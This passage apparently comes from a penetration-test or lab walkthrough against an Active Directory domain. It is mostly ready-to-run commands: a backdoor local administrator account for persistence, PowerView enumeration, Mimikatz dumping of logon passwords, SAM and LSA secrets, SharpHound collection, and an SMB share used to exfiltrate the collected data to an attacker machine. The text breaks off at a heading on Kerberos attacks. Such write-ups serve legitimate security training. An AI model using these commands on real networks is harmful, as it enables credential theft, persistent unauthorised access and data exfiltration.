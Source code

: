 Created a new local administrator account for persistent access:
```
net user newadmin P@ssw0rd! /add
net localgroup administrators newadmin /add
```
### 3.5 Advanced Active Directory Reconnaissance

Loaded PowerView for comprehensive AD enumeration:
```
Import-Module .\PowerView.ps1
Useful commands:

Get-NetDomain
Get-NetDomainController
Get-NetDomainTrust
Get-NetUser
Get-NetUser [username]
Get-NetGroup
Get-NetGroupMember "Domain Admins"
Get-NetLocalGroupMember
Get-NetComputer -FullData
Find-LocalAdminAccess
Find-UserSession -UserName [targetusername]
Get-NetForest
Get-NetDomainTrust
```
Additional PowerShell helper commands:
```
New-Item -Path "subhash1234.txt" -ItemType File
Set-Content -Path "C:\path\to\file.txt" -Value "Hello, this is some text"
(Get-CimInstance Win32_operatingsystem).OSArchitecture
whoami /groups
```
### 3.6 Credential Dumping and Post-Exploitation Instrumentation

Launched Mimikatz for dumping credentials and hashes:
```
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
sekurlsa::minidump lsass.DMP
lsadump::secrets
lsadump::sam
```
### 3.7 BloodHound / SharpHound Data Collection

Collected AD data using SharpHound and set up SMB share for exfiltration:
```
.\SharpHound.exe -c all

New-SMBShare -name "loot$" -path "C:\users$$user]\Downloads" -FullAccess "[user]@corp.thereserve.loc"
```
On attacker machine:
```
smbclient \\10.200.116.22\loot$ -U [user]@corp.thereserve.loc
lcd /root/sharphound
get 20250726204159_users.json
mget *
```
### 3.8 Kerberos Attacks
